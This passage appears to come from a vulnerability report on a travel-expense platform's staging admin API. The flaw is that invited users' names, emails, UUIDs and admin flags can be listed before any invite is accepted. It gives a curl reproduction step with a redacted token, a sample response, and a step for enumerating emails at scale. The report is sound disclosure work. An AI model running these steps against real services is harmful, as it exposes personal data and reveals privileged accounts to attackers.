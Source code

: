 3. Immediately list users:
    

```bash
curl -i -X GET "https://staging-prime.navan.com/api/admin/users?enabled=true&page=1&size=10&includeRolesForDisplay=true&includeExpenseRole=true&includeNavanCardInfo=true" \
  -H "Authorization: TripActions <REDACTED_JWT>" \
  -H "Accept: application/json"
```

4. Observe the returned JSON includes the invited user object (example fields returned):
    

```json
{
  "uuid": "560950df-5e90-48f1-8265-ed15e497f427",
  "email": "victim@example.com",
  "givenName": "Test",
  "familyName": "Testy",
  "passwordSet": false,
  "phoneNumber": null,
  "admin": false,
  "superAdmin": false,
  "policyLevel": "DEFAULT",
  "companyPolicyLevel": {
     "uuid":"5dc64b53-...",
     "name":"DEFAULT",
     ...
  },
  ...
}
```

5. Repeat with many emails to confirm enumeration at scale.
    

**Observation:** Invite acceptance by the victim is **not required** — data is available immediately after invite creation.

---

## Tests already performed (by reporter)

- Confirmed any authenticated user can create a company and invite arbitrary emails.
    
- Confirmed invited user objects appear in `GET /api/admin/users` immediately and include sensitive fields and role booleans.
    

---

## Impact

- **Information disclosure** of PII (names, emails, UUIDs) and internal flags.
    
- **Privilege mapping**: attacker can identify administrative or privileged accounts by boolean flags.
    